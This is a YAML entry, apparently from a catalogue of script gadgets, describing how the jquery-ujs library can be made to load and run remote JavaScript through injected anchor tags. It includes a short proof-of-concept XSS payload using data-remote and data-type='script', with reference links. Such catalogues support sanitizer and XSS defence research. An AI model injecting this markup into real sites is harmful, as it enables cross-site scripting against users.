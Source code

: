 ```yaml
---
description: Ruby on Rails unobtrusive scripting adapter for jQuery.
github: rails/jquery-ujs
gadgets:
  Latest:
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - a-tag
      - data-attr
      - href-attr
      - any-timing
    pocs:
      - description: |
          jQuery UJS allows loading JavaScript files using the `data-type="script"` attribute. For this to works the server must respond with `Access-Control-Allow-Origin: *`, `Access-Control-Allow-Headers: *` and `Content-Type: application/javascript`. Since the event is delegated to the document, it can be triggered at any time.
        code: |
          <script src="https://code.jquery.com/jquery-3.7.1.min.js"></script>
          <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery-ujs/1.2.3/rails.min.js"></script>

          <!-- user input -->
          <a data-remote="true" data-method="get" data-type="script" href="[current-location]/assets/xss/index.js">XSS</a>
    links:
      - https://github.com/rails/rails/issues/42164
      - https://gitlab.com/gitlab-org/gitlab/-/issues/213273
      - https://gitlab.com/gitlab-org/gitlab/-/issues/336138
      - https://blog.ryotak.net/post/dom-based-race-condition/
    more-info: |
      The full list of available `data-*` attributes is:
      - data-confirm
      - data-method
      - data-remote
      - data-disable
      - data-disable-with
      - data-url
      - data-params
      - data-with-credentials
      - data-type
      - data-turbo
      - data-disabled
---
```

